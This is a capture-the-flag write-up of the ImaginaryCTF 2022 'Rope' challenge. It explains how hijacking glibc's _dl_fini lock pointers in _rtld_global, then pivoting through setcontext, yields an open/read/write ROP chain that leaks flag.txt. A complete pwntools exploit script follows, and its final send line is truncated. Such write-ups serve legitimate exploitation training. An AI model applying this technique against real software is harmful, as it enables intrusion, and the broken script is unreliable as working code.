

### Rope

was a pwn challenge from ImaginaryCTF 2022 edition.

it is a classical "*execute after program exits*" type of pwn challenge.

The reverse is very quick, here is the `main` function:


So, the program gives you a free leak, as the address of libc `puts()` function.

Then, you can write up to 256 bytes, in a buffer on .bss, at **0x404040** address.

This data is not used, so it is probably something to help exploitation.

Then you have a write primitive, you can write a 64 bits value where you want.

Then the program exits by returning 0.

The program has a seccomp that forbids only allow us to use `open`, `read`,`write` syscalls, and that will forbid having a shell via execve..


That's a very classic pwn exercise, that can be resolved in many different ways, depending on libc version, presence of `_dl_fini` array in writable .bss or not..  creating a fake FILE * structure in .bss, and linking it to stdin,stdout, linked chain list.. etc...etc...

There is also , the `run_exit_handlers()` function table, that execute various functions at exit, but their pointers that are mangled with a value that we can not leak.

There is also another possibility , to write to struct `link_map` on stack, to abuse `_dl_fini` function

as explained here:  https://activities.tjhsst.edu/csc/writeups/angstromctf-2021-wallstreet

------

One simple thing that you can do, to see all the possibilities of code execution at exit

is to simply following in gdb instruction by instruction what is executed after return...

it's a bit time consuming, but at least, you will know exactly what possibilities you have..

so what we have?

another classic way to have code execution after exit, is to abuse of `_dl_fini` function in `ld.so`.

especially two functions pointers at `_rtld_global+3848` &  `_rtld_global+3856`, these are functions pointers

to lock & unlock functions, that are called by `_dl_fini`, and that we can overwrite to have code execution.

here, it's interesting to have a look to `dl-fini.c` source code to see what is really happening.

https://sources.debian.org/src/glibc/2.23-4/elf/dl-fini.c/

```c
void
internal_function
_dl_fini (void)
{
  /* Lots of fun ahead.  We have to call the destructors for all still
     loaded objects, in all namespaces.  The problem is that the ELF
     specification now demands that dependencies between the modules
     are taken into account.  I.e., the destructor for a module is
     called before the ones for any of its dependencies.

     To make things more complicated, we cannot simply use the reverse
     order of the constructors.  Since the user might have loaded objects
     using `dlopen' there are possibly several other modules with its
     dependencies to be taken into account.  Therefore we have to start
     determining the order of the modules once again from the beginning.  */

  /* We run the destructors of the main namespaces last.  As for the
     other namespaces, we pick run the destructors in them in reverse
     order of the namespace ID.  */
#ifdef SHARED
  int do_audit = 0;
 again:
#endif
  for (Lmid_t ns = GL(dl_nns) - 1; ns >= 0; --ns)
    {
      /* Protect against concurrent loads and unloads.  */
      __rtld_lock_lock_recursive (GL(dl_load_lock));

      unsigned int nloaded = GL(dl_ns)[ns]._ns_nloaded;
      /* No need to do anything for empty namespaces or those used for
	 auditing DSOs.  */
      if (nloaded == 0
#ifdef SHARED
	  || GL(dl_ns)[ns]._ns_loaded->l_auditing != do_audit
#endif
	  )
	__rtld_lock_unlock_recursive (GL(dl_load_lock));
      else
	{
	  /* Now we can allocate an array to hold all the pointers and
```

the first one called is `__rtld_lock_lock_recursive (GL(dl_load_lock));`

which is at `_rtld_global+3848`

then the second one called is `__rtld_lock_unlock_recursive (GL(dl_load_lock));`

wich is at `_rtld_global+3856`

you can see the whole structure `_rtld_global` , which is huge, on gdb with command:

`p _rtld_global`

the `GL(dl_loal_lock)` passed as argument for the two functions, is at `_rtld_global+2312`,

and that is interesting for us..

`why?`

well let's put a breakpoint at `__rtld_lock_lock_recursive (GL(dl_load_lock));`  in `_dl_fini` function in gdb, and see what we have:



as you can see,  `rdi` register points to `_rtld_global+2312`,  then the function pointer at `_rtld_global+3848` is called.

Later , the unlock function pointer is called at `_rtld_global+3856`

So, one thing we can do with our write primitive, is to replace `_rtld_global+3848` (`__rtld_lock_lock_recursive`) by `gets()` libc function address.

Like this, when `gets()` will be called with `rdi = _rtld_global+2312`,  we can overwrite a large part of `_rtld_global` structure,  up to our own function pointer at `_rtld_global+3848`, and even overwrite next pointer `_rtld_global+3856` (`__rtld_lock_unlock_recursive`) to execute a pivot on `rdi` for example, with a `setcontext()` gadget.

for those who don't know , the `setcontext()` function, in libc, it looks like this:


we can jump in this function, at `setcontext+53` for example,

as we control data pointed by rdi register (the data we write at `_rtld_global+2312` address)

we can use this `setcontext()` gadget, to call a function , or to pivot stack in `_rtld_global`,

or in the buffer in .bss at **0x404040** address that we control.

And continue execution of a ROP that we put there...

We will use a simple `open`, `read`, `write` ROP, to dump the `flag.txt` file , as the challenge has a seccomp that forbids us using a simple onegadget.

so...


Here is the exploit:

```python
# -*- coding: utf-8 -*-
from pwn import *

context.update(arch="amd64", os="linux")
context.log_level = 'info'

exe = ELF("./vuln_patched")
libc = ELF("./libc-2.23.so")
ld = ELF("./ld-2.23.so")

# change -l0 to -l1 for more gadgets
def one_gadget(filename, base_addr=0):
  return [(int(i)+base_addr) for i in subprocess.check_output(['one_gadget', '--raw', '-l0', filename]).decode().split(' ')]

rop = ROP(exe)

host, port = "rope.chal.imaginaryctf.org", "1337"

if args.REMOTE:
  p = remote(host,port)
else:
  p = process(exe.path)

p.recvuntil('0x',drop=True)
libc.address = int(p.recvuntil('\n',drop=True),16) - libc.sym['puts']
print('libc base = '+hex(libc.address))
rop = ROP(libc)

pivot = libc.address + 0x000000000007a35d #  mov rax, qword ptr [rdi + 0xd8] ; call qword ptr [rax + 0x48]
pivot2 = libc.address + 0x0000000000136b63 # mov rdi, qword ptr [rax] ; mov rax, qword ptr [rdi + 0x38] ; call qword ptr [rax + 0x20]
syscall = rop.find_gadget(['syscall', 'ret'])[0]
pop_rdi = rop.find_gadget(['pop rdi', 'ret'])[0]
pop_rdx = rop.find_gadget(['pop rdx', 'ret'])[0]
pop_rsi = rop.find_gadget(['pop rsi', 'ret'])[0]
pop_rax = rop.find_gadget(['pop rax', 'ret'])[0]
xchg_edx_eax = libc.address + 0x0000000000145b07 # xchg edx, eax ; sub eax, edx ; ret
xchg_eax_edi = libc.address + 0x00000000000fe229 # xchg eax, edi; lea ebp, [rax + rax]; lea rax, [rip + 0x2c8d64]; ret;
ret = rop.find_gadget(['ret'])[0]

payload = p64(0x404040)+p64(0)*3+p64(libc.sym['setcontext']+53)+p64(0)*2+p64(0x404040)+p64(0)+p64(pivot2)
payload += p64(0)*3
payload += p64(0)+p64(0x404000)+p64(0xdeadbeef)*2+p64(0x100)+p64(0)*2+p64(0x404010)+p64(syscall)

p.sendline(payload)

p.sendline(str(libc.address+0x5f0040+3848))
p.sendline(str(libc.sym['gets']))

# We will use the setcontext gadget which we will use to pivot on buffer pointed by rdi
'''
Dump of assembler code for function setcontext:
   0x00007f0360916b50 <+0>:	push   rdi
   0x00007f0360916b51 <+1>:	lea    rsi,[rdi+0x128]
   0x00007f0360916b58 <+8>:	xor    edx,edx
   0x00007f0360916b5a <+10>:	mov    edi,0x2
   0x00007f0360916b5f <+15>:	mov    r10d,0x8
   0x00007f0360916b65 <+21>:	mov    eax,0xe
   0x00007f0360916b6a <+26>:	syscall 
   0x00007f0360916b6c <+28>:	pop    rdi
   0x00007f0360916b6d <+29>:	cmp    rax,0xfffffffffffff001
   0x00007f0360916b73 <+35>:	jae    0x7f0360916bd0 <setcontext+128>
   0x00007f0360916b75 <+37>:	mov    rcx,QWORD PTR [rdi+0xe0]
   0x00007f0360916b7c <+44>:	fldenv [rcx]
   0x00007f0360916b7e <+46>:	ldmxcsr DWORD PTR [rdi+0x1c0]
   0x00007f0360916b85 <+53>:	mov    rsp,QWORD PTR [rdi+0xa0]
   0x00007f0360916b8c <+60>:	mov    rbx,QWORD PTR [rdi+0x80]
   0x00007f0360916b93 <+67>:	mov    rbp,QWORD PTR [rdi+0x78]
   0x00007f0360916b97 <+71>:	mov    r12,QWORD PTR [rdi+0x48]
   0x00007f0360916b9b <+75>:	mov    r13,QWORD PTR [rdi+0x50]
   0x00007f0360916b9f <+79>:	mov    r14,QWORD PTR [rdi+0x58]
   0x00007f0360916ba3 <+83>:	mov    r15,QWORD PTR [rdi+0x60]
   0x00007f0360916ba7 <+87>:	mov    rcx,QWORD PTR [rdi+0xa8]
   0x00007f0360916bae <+94>:	push   rcx
   0x00007f0360916baf <+95>:	mov    rsi,QWORD PTR [rdi+0x70]
   0x00007f0360916bb3 <+99>:	mov    rdx,QWORD PTR [rdi+0x88]
   0x00007f0360916bba <+106>:	mov    rcx,QWORD PTR [rdi+0x98]
   0x00007f0360916bc1 <+113>:	mov    r8,QWORD PTR [rdi+0x28]
   0x00007f0360916bc5 <+117>:	mov    r9,QWORD PTR [rdi+0x30]
   0x00007f0360916bc9 <+121>:	mov    rdi,QWORD PTR [rdi+0x68]
   0x00007f0360916bcd <+125>:	xor    eax,eax
   0x00007f0360916bcf <+127>:	ret    
   0x00007f0360916bd0 <+128>:	mov    rcx,QWORD PTR [rip+0x37c2a1]        # 0x7f0360c92e78
   0x00007f0360916bd7 <+135>:	neg    eax
   0x00007f0360916bd9 <+137>:	mov    DWORD PTR fs:[rcx],eax
   0x00007f0360916bdc <+140>:	or     rax,0xffffffffffffffff
   0x00007f0360916be0 <+144>:	ret    
End of assembler dump.
'''

#rtld_global = libc.address + 0x5f0040
ld.address = libc.address + 0x3ca000
rtld_global = ld.sym['_rtld_global']

# we somewhat reconstruct values in rtld_global that we will overwrite (a bit, not too much..)
payload = p32(0)+p32(1)
payload += p64(0)+p64(1)+p64(0)*4+p64(1)+p64(0)*2+p64(5)+p64(0)+p64(0x00002aa03b3fdd31)
payload += p64(0)+p64(0x6b)+p64(3)
payload += p64(libc.address+0x5f1d80)+p64(libc.address+0x3cac80)+p64(ld.address)
payload += p64(0x0000000000404040)+p64(rtld_global+2568)+p64(0)+p64(0x5b84d8+libc.address)
payload += p64(0x5f09d8+libc.address)+p64(0)+p64(0x5f1020+libc.address)
payload += p64(0)+p64(0x404040)
payload = payload.ljust(0x600,b'\x00')
payload += p64(0xcafebabe)+p64(pivot)		# here we overwrite rtld_global+3856, that will be called next
p.sendline(payload)

# second payload --> open , read, write ROP
payload2 = b'flag.txt'.ljust(16,b'\x00')
payload2 += p64(pop_rdi)+p64(0x404000)+p64(pop_rsi)+p64(0)+p64(pop_rax)+p64(2)+p64(syscall)			# fd = open("flag.txt", O_RDONLY)
payload2 += p64(xchg_eax_edi)+p64(pop_rsi)+p64(0x404400)+p64(pop_rdx)+p64(0x100)+p64(pop_rax)+p64(0)+p64(syscall)	# read(fd, 0x404400, 0x100)
payload2 += p64(xchg_edx_eax)+p64(pop_rdi)+p64(1)+p64(pop_rsi)+p64(0x404400)+p64(pop_rax)+p64(1)+p64(syscall)	# write(1,0x404400, 0x100)
p.send(payl
p.interactive()
```

*nobodyisnobody, still pwning things..*

